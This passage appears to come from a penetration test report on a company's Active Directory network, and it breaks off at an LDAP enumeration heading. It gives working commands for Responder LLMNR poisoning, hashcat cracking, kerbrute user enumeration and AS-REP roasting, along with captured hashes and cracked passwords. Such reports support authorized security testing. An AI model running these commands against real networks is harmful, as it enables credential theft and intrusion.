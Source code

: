 **Finding:** Network Level Authentication (NLA) is disabled - allows credential brute-forcing

**Responder/LLMNR Poisoning:**

```bash
# Start Responder for credential capture
sudo responder -I eth0 -wFv

# Wait for broadcast name resolution attempts
```

**Captured Credentials (within 12 minutes):**
```
[SMB] NTLMv2-SSP Client   : 10.50.1.78
[SMB] NTLMv2-SSP Username : VANGUARDFS\jthompson
[SMB] NTLMv2-SSP Hash     : jthompson::VANGUARDFS:1122334455667788:8A3D...
```

**Hash Cracking:**
```bash
hashcat -m 5600 captured_hash.txt /usr/share/wordlists/rockyou.txt
# Cracked: Summer2024!
```

#### 2.2.3 Domain Controller Reconnaissance

**Kerberos Enumeration:**

```bash
# User enumeration via Kerberos (no credentials required)
kerbrute userenum --dc 10.50.2.11 -d corp.vanguardfs.local /usr/share/wordlists/xato-net-10-million-usernames.txt

# Discovered valid users:
# - administrator
# - jthompson (HR Manager)
# - mrodriguez (IT Administrator)  
# - sql_service (Service Account)
# - backup_admin (Service Account)
# - sjenkins (Finance Director)
```

**ASREPRoasting:**

```bash
# Check for users without Kerberos pre-authentication
impacket-GetNPUsers corp.vanguardfs.local/ -dc-ip 10.50.2.11 -usersfile valid_users.txt -format hashcat -outputfile asrep_hashes.txt
```

**Result:** User `backup_admin` has "Do not require Kerberos preauthentication" enabled

```
$krb5asrep$23$backup_admin@CORP.VANGUARDFS.LOCAL:a8f2c1...
```

**Cracked Password:** `BackupPass2023!`

**LDAP Enumeration:**
